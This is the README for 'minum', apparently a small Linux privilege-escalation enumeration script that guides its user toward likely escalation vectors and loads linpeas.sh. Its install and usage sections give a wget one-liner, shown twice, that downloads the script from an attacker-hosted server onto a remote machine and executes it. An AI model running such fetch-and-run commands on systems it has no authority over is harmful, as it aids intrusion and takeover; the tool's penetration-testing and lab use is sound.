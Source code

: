 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  
Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server

On the remote machine:
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
